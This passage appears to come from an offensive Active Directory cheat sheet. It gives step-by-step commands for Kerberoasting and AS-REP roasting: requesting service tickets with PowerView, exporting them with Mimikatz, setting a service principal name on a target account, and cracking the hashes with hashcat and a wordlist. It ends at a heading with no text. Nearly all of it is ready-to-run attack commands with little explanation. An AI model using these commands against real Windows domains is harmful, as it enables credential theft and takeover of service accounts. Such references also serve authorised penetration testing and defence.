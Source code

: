 # Kerberoasting

## Automatic

With PowerView:

Get-DomainSPNTicket -SPN "MSSQLSvc/sqlserver.targetdomain.com"

PowerShell

Crack the hash with Hashcat:

hashcat -a 0 -m 13100 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule

Bash

## Manual

# Request TGS for kerberoastable account (SPN)  
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.targetdomain.com"# Dump TGS to disk  
Invoke-Mimikatz -Command '"kerberos::list /export"'# Crack with TGSRepCrack  
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssqlsvc.kirbi

PowerShell

## Targeted kerberoasting by setting SPN

We need have ACL write permissions to set UserAccountControl flags for the target user, see above for identification of interesting ACLs. Using PowerView:

Set-DomainObject -Identity TargetUser -Set @{serviceprincipalname='any/thing'}

PowerShell

# AS-REP roasting

Get the hash for a roastable user (see above for hunting). Using `ASREPRoast.ps1`:

Get-ASREPHash -UserName TargetUser

PowerShell

Crack the hash with Hashcat:

hashcat -a 0 -m 18200 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule

Bash

## Targeted AS-REP roasting by disabling Kerberos pre-authentication
